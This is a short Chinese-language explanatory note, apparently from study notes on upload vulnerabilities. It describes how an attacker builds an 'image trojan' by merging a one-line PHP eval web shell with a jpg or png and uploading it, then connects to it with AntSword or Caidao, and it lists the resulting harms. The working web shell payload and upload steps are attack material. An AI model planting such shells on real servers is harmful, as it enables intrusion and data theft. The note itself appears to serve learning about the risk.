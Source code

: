 > ？？？步骤还是后果？

步骤应该就是制作图马，然后上传

- 创造一个木马文件，如：

  ```php
  <?php
      @eval($_POST['muma']);
  ?>
  ```

- 然后将其与一张`jpg`或`png`图片合并做成**图马**

- 将图马文件上传至服务器

- 将图马路径利用**蚁剑**、**菜刀**等工具进行连接服务器

后果就多了，获得`Webshell`，攻击者可以对受影响的服务器进行广泛的操控，对服务器和网站的安全性造成严重威胁。

- 查看、修改、删除服务器上的文件和目录。
- 执行系统命令，获取服务器的敏感信息。
- 创建后门，以便随时再次访问服务器。
- 窃取用户数据，包括个人信息、登录凭据等。
- 安装其他恶意软件，扩大攻击范围。